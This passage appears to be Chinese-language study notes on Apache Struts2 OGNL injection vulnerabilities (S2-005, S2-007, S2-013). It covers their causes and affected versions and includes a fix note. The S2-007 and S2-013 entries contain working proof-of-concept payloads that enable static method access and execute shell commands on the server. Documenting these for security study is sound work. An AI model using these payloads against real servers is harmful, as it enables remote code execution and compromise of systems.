     很多，搜集总和

* 修复

    正则过滤`%{.+?}`
    
    从 XWork 2.0.4 开始，OGNL 解析已更改，因此它不是递归的。因此，在上面的示例中，结果将是预期的％{1 + 1}。您可以获取WebWork 2.0.4或Struts 2.0.9，其中包含已更正的XWork 库。或者，您可以获取补丁并将其自己应用于 XWork 源代码。

## S2-005

* 原理
    
    s2-005 漏洞的起源源于 S2-003(受影响版本: 低于 Struts 2.0.12)， struts2 会将 http 的每个参数名解析为 OGNL 语句执行(可理解为 java 代码)。OGNL 表达式通过#来访问 struts 的对象，struts 框架通过过滤#字符防止安全问题，然而通过 unicode 编码(\u0023)或 8 进制(\43)即绕过了安全限制，对于 S2-003 漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用 OGNL 表达式将这 2 个选项打开

影响版本：
    
    Struts 2.0.0-2.1.8.1


## S2-007

* 原理  

    age 当配置了验证规则，类型转换出错时，进行了错误的字符串拼接，进而造成了 OGNL 语句的执行。

    当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

* 版本

    Struts 2.0.0 - 2.2.3

* POC

    `' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('find /tmp/ -name flag*').getInputStream())) + '`


## S2-013(CVE-2013-1966)

* 原理

    Apache Struts2的s:a和s:url标签都提供了一个`includeParams`属性。此属性允许使用的值包括none、get、all。当该属性被设置为get或all时，Apache Struts2会将用户提交的参数值作为Ognl表达式执行。攻击者可以提交带有恶意的Ongl表达式，达到执行任意Java代码的目的。只要基于Apache Struts2开发的JSP代码中使用了url/a标签并且设置了`includeParams`属性为`all或get`，远程攻击者即可利用此漏执行任意命令。

* POC

    `/link.action?fakeParam=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27id%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`


